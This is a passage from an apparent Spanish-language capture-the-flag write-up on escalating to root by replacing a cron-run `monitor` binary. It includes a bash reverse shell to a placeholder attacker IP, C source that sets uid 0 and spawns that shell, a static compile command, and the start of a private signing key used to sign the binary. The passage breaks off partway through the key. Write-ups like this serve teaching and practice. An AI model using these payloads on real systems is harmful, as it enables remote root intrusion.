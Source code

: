 Vemos que cada `x` tiempo se esta ejecutando el binario `monitor` como el usuario `root`, por lo que podremos hacer lo siguiente:

> monitor

```bash
#!/bin/bash 

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Si hacemos esto y esperamos un rato monitoreando los procesos veremos esto otro:

```
2025/09/25 12:23:21 CMD: UID=0     PID=1      | /sbin/init 
2025/09/25 12:24:01 CMD: UID=0     PID=26727  | bash -c /root/initiate_monitoring.sh 
2025/09/25 12:24:01 CMD: UID=0     PID=26726  | /bin/sh -c bash -c '/root/initiate_monitoring.sh' >> /opt/AV/periodic-checks/status.log 2>&1 
2025/09/25 12:24:01 CMD: UID=0     PID=26725  | /usr/sbin/CRON -f -P 
2025/09/25 12:24:01 CMD: UID=0     PID=26724  | /usr/sbin/CRON -f -P 
2025/09/25 12:24:01 CMD: UID=0     PID=26728  | /bin/bash /root/initiate_monitoring.sh 
2025/09/25 12:24:01 CMD: UID=0     PID=26731  | /bin/bash /root/initiate_monitoring.sh 
2025/09/25 12:24:01 CMD: UID=0     PID=26730  | /bin/sh -c bash -c 'echo > /opt/AV/periodic-checks/status.log' 
2025/09/25 12:24:01 CMD: UID=0     PID=26729  | /bin/bash /root/initiate_monitoring.sh
```

Por lo que vemos esta comprobando la firma del binario y como no es igual no lo ejecuta, acordemonos de que obtuvimos un archivo en el comprimido de `signing.zip` que nos daba ya estas claves, por lo que vamos a crear un binario desde `C#` compilarlo y firmarlo con dichas claves de esta forma desde nuestra maquina atacante:

Primero vamos a crear el `monitor.c`:

```c
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1", NULL);
    return 0;
}
```

Ahora vamos a compilarlo:

```shell
x86_64-linux-gnu-gcc -o monitor monitor.c -static
```

> key.pem

```
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQCqKH30+RZjkxiV
JMnuB6b1dDbWUaw3p2QyQvWMbFvsi7zG1kE2LBrKjsEyvcxo8m0wL9feuFiOlciD
MamELMAW0UjMyew01+S+bAEcOawH81bVahxNkA4hHi9d/rysTe/dnNkh08KgHhzF
mTApjbV0MQwUDOLXSw9eHd+1VJClwhwAsL4xdk4pQS6dAuJEnx3IzNoQ23f+dPqT
CMAAWST67VPZjSjwW1/HHNi12ePewEJRGB+2K+YeGj+lxShW/I1jYEHnsOrliM2h
ZvOLqS9LjhqfI9+Q1RxIQF69yAEUeN4lYupa0Ghr2h96YLRE5YyXaBxdSA4gLGOV
HZgMl2i/AgMBAAECggEALCO53NjamnT3bQTwjtsUT9rYOMtR8dPt1W3yNX2McPWk
wC2nF+7j+kSC0G9UvaqZcWUPyfonGsG3FHVHBH75S1H54QnGSMTyVQU+WnyJaDyS
+2R9uA8U4zlpzye7+LR08xdzaed9Nrzo+Mcuq7DTb7Mjb3YSSAf0EhWMyQSJSz38
nKOcQBQhwdmiZMnVQp7X4XE73+2Wft9NSeedzCpYRZHrI820O+4MeQrumfVijbL2
xx3o0pnvEnXiqbxJjYQS8gjSUAFCc5A0fHMGmVpvL+u7Sv40mj/rnGvDEAnaNf+j
SlC9KdF5z9gWAPii7JQtTzWzxDinUxNUhlJ00df29QKBgQDsAkzNjHAHNKVexJ4q
4CREawOfdB/Pe0lm3dNf5UlEbgNWVKExgN/dEhTLVYgpVXJiZJhKPGMhSnhZ/0oW
gSAvYcpPsuvZ/WN7lseTsH6jbRyVgd8mCF4JiCw3gusoBfCtp9spy8Vjs0mcWHRW
PRY8QbMG/SUCnUS0KuT1ikiIYwKBgQC4kkKlyVy2+Z3/zMPTCla/IV6/EiLidSdn
RHfDx8l67Dc03thgAaKFUYMVpwia3/UXQS9TPj9Ay+DDkkXsnx8m1pMxV0wtkrec
pVrSB9QvmdLYuuonmG8nlgHs4bfl/JO/+Y7lz/Um1qM7aoZyPFEeZTeh6qM2s+7K
```